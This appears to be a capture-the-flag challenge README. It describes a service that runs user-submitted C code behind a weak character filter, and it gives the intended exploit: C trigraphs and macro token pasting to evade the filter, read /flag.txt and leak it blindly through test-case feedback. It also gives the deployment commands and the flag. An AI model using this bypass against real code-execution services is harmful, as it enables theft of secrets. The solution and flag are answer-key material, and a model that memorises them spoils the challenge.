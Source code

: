 # SW Expert Academy

## Vulnerability
Insufficient string filtering executing untrusted C source code.

## Intended Solution
Bypass filtering with C pre-processor macro(String concatenation)
Filtered `#` characater can be bypassed with C trigraph notation.
Both exploit strategies are available, sending flag to hacker's server and blind exfiltration with correct test case feedback.
```
#include <stdio.h>
int main() {
    //Your code will be place here!
    ??=define cc(a,b) a??=??=b
    char flag[1024];
    cc(freo,pen)("/flag.txt", "r", stdin);
    scanf("%s", flag);

    int len = 0;
    while (flag[len++]);
    if (flag[0] == 'S') {
        puts("2/3");
    }
    //Please enjoy problem solving!
}
```

## Deployment
Run server with 3000 port
```
$ cd ./prob
$ SOFTECH_PORT=3000 docker-compose up -d
```

## Flag
```
SCTF{take-care-when-execute-unknown-code}
```
